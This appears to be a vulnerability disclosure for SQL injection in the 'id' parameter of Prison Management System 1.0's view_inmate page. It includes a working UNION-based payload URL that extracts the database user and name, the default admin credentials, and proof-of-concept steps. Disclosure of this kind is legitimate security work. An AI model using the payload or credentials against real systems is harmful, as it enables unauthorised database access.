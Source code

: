 # Prison Management System  - Inmates/view_inmate 'id' SQL inject(SQLI)


#### Exploit Title: Prison Management System  - Inmates/view_inmate 'id' SQL inject(SQLI)
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/15368/prison-management-system-phpoop-free-source-code.html
#### Software Link:https://www.sourcecodester.com/download-code?nid=15368&title=Prison+Management+System+in+PHP%2FOOP+Free+Source+Code
#### Version: Prison Management System 1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Prison Management System does not filter the content correctly at the "Inmates/view_inmate" id parameter, resulting in the generation of SQL injection.

#### Payload used:
http://localhost/pms/admin/?page=inmates/view_inmate&id=1%27%20and%201=2%20union%20select%201,user(),3,4,5,6,7,8,9,0,database(),2,3,4,5,6,7,8,9,0,1,2,3,4--+

#### Proof of Concept

1. Login the CMS. 
    Admin Default Access:
    username:admin
    Password: admin123

2. Open Page http://localhost/pms/admin/?page=inmatesand click View button

   ![image-20220607095010559](./img/Prison Management System(XSS).assets/image-20220607095010559.png)
   ![image-20220606142934357](../img/Prison Management System(SQLI).assets/image-20220606142934357.png)

   ![image-20220606142955008](../img/Prison Management System(SQLI).assets/image-20220606142955008.png)

   

3. Put SQL payload   in the browser;


4. Viewing the dbuser and database name in page;

   ![image-20220606143008496](./img/Prison Management System(SQLI).assets/image-20220606143008496.png)

